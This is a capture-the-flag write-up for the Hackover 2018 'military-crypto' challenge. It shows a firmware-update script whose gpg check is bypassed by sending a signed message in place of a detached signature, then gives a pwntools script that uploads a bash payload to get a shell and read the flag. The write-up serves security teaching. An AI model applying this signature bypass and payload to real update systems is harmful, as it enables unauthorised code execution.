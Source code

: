 ## title
#### challenge
```
We take security seriously so instead of shipping our own crypto we simply use proven military grade technology for our firmware updates.

nc military-crypto.ctf.hackover.de 1337

```

### references
[original write-up](https://security.meta.stackexchange.com/questions/3077/write-ups-hackover-ctf-2018-fri-05-oct-2000-utc-sun-07-oct-1000-utc/3086#3086)

### resources
[name](rellink)

### idea
First we download the firmware with selecting option 2).
This gives the current firmware encoded with base64 (=> ``` cat firm.txt | base64 --decode```):
```bash
 echo 'Reading firmware...'
   touch update.bin.b64
   while IFS='' read -r firmware; do
       if [ -z "$firmware" ]; then break; fi
       echo "$firmware" >> update.bin.b64
   done
   base64 -d update.bin.b64 > update.bin
   rm update.bin.b64

   echo 'Reading detatched signaure...'
   touch update.bin.sig
   while IFS='' read -r signature; do
       if [ -z "$signature" ]; then break; fi
       echo "$signature" >> update.bin.sig.b64
   done
   base64 -d update.bin.sig.b64 > update.bin.sig
   rm update.bin.sig.b64

   if ! gpg --verify update.bin.sig; then
       set +x
       echo '!!!!!!!!!!!!!!!!!!!!!!!'
       echo '!! INVALID SIGNATURE !!'
       echo '!!!!!!!!!!!!!!!!!!!!!!!'
       exit 1
   else
       chmod +x update.bin
       echo 'Updating....'
       ./update.bin
       echo 'Rebooting....'
       exit 0
   fi
```
Also we get a signed message:
```
-----BEGIN PGP SIGNED MESSAGE-----
Hash: SHA256

Version: 1.0
Created: 2018-10-03
Audited: KRYPTOCHEF

-----BEGIN PGP SIGNATURE-----

iQIzBAEBCAAdFiEEwSuuOHnM9KfOOGG3QoUB03HVrd8FAlu2ra4ACgkQQoUB03HV
rd9kow//b/uQQonqD02g7VXMBYIUcCljLsGaOgvdEXSA6r6y5iym4DVLrDuZrIHP
ryAV30SJkm6gaxjcA19zYBg79tqcolhJPq4Tsd8bCOBEWG31Gk1LN7mzJbCk5TMO
ylf02qYbgpCULPkNxH87s4S8Oo7z0buR50jWAbe28fPkqyF0AG4iConSeIhKtMYB
LNFIdxXm3u99su5BATf13jSGrIIg+iO8aT7xrohOyaY75FlvsB6DBeDLTwf/9z//
SKVixZVKuoh+b4hevECqmwRB3t/NvyIbHz8e70WHXhWg6CXJMMz41YZylGhwNeDF
I3sHjIJ1wx4FDzH1WSlVcrYSOP4UZacgPzwxjMehvnUW2IGFXRiwsh1z21HI8Nlx
N0YZ5b+uwpj75AmP4mNDYvoGHHk1+fqna4a39y2t7qQEWMkEq2YQiuDQjCGAprC+
Q++8HAtODf566z2pB1h8dsdvOWDzzfMS8z3RC6LFydMEiRzVi7sL0tawY60JPBxH
DX2D6njzPi5XjRCNJiGqrK2qsL2aNxDn7zBQExvEUmgLsSR574YUILLa0xsMhMTA
Zn3ht/Rx7yxZJoN8FM0UvajbFdcDmgj2iullEq3aIpmQChoVnb/yygpCq0353UtY
OWZKfxCcH9mQSbcQCjDUFgr91nTXehMQ6d64bSbLxgZuqWwPoy4=
=IbNc
-----END PGP SIGNATURE-----
```

Uploading this signature as base64 encoded file signature, will bypass the ```gpg --verify update.bin.sig``` with a warning:
```
gpg: WARNING: not a detached signature; file 'update.bin' was NOT verified!
```


### script
```python
from pwn import *
import base64

r = remote("military-crypto.ctf.hackover.de",1337)

msg = """LS0tLS1CRUdJTiBQR1AgU0lHTkVEIE1FU1NBR0UtLS0tLQpIYXNoOiBTSEEyNTYKClZlcnNpb246
IDEuMApDcmVhdGVkOiAyMDE4LTEwLTAzCkF1ZGl0ZWQ6IEtSWVBUT0NIRUYKCi0tLS0tQkVHSU4g
UEdQIFNJR05BVFVSRS0tLS0tCgppUUl6QkFFQkNBQWRGaUVFd1N1dU9Ibk05S2ZPT0dHM1FvVUIw
M0hWcmQ4RkFsdTJyYTRBQ2drUVFvVUIwM0hWCnJkOWtvdy8vYi91UVFvbnFEMDJnN1ZYTUJZSVVj
Q2xqTHNHYU9ndmRFWFNBNnI2eTVpeW00RFZMckR1WnJJSFAKcnlBVjMwU0prbTZnYXhqY0ExOXpZ
Qmc3OXRxY29saEpQcTRUc2Q4YkNPQkVXRzMxR2sxTE43bXpKYkNrNVRNTwp5bGYwMnFZYmdwQ1VM
UGtOeEg4N3M0UzhPbzd6MGJ1UjUwaldBYmUyOGZQa3F5RjBBRzRpQ29uU2VJaEt0TVlCCkxORklk
eFhtM3U5OXN1NUJBVGYxM2pTR3JJSWcraU84YVQ3eHJvaE95YVk3NUZsdnNCNkRCZURMVHdmLzl6
Ly8KU0tWaXhaVkt1b2grYjRoZXZFQ3Ftd1JCM3QvTnZ5SWJIejhlNzBXSFhoV2c2Q1hKTU16NDFZ
WnlsR2h3TmVERgpJM3NIaklKMXd4NEZEekgxV1NsVmNyWVNPUDRVWmFjZ1B6d3hqTWVodm5VVzJJ
R0ZYUml3c2gxejIxSEk4Tmx4Ck4wWVo1Yit1d3BqNzVBbVA0bU5EWXZvR0hIazErZnFuYTRhMzl5
MnQ3cVFFV01rRXEyWVFpdURRakNHQXByQysKUSsrOEhBdE9EZjU2NnoycEIxaDhkc2R2T1dEenpm
TVM4ejNSQzZMRnlkTUVpUnpWaTdzTDB0YXdZNjBKUEJ4SApEWDJENm5qelBpNVhqUkNOSmlHcXJL
MnFzTDJhTnhEbjd6QlFFeHZFVW1nTHNTUjU3NFlVSUxMYTB4c01oTVRBClpuM2h0L1J4N3l4Wkpv
TjhGTTBVdmFqYkZkY0RtZ2oyaXVsbEVxM2FJcG1RQ2hvVm5iL3l5Z3BDcTAzNTNVdFkKT1daS2Z4
Q2NIOW1RU2JjUUNqRFVGZ3I5MW5UWGVoTVE2ZDY0YlNiTHhnWnVxV3dQb3k0PQo9SWJOYwotLS0t
LUVORCBQR1AgU0lHTkFUVVJFLS0tLS0KCg=="""
r.send("1\n" + base64.b64encode(b'#!/bin/bash\n/bin/bash\n')+ "\n\n" + msg + "\n\n")

r.interactive()
```
The flag is found in the directory /home/ctf/. ```cat /home/ctf/flag.txt```.

### flag
hackover18{r0ll_y0_0wn_crypt0_w1th_pgp}

[more write-ups](../../)
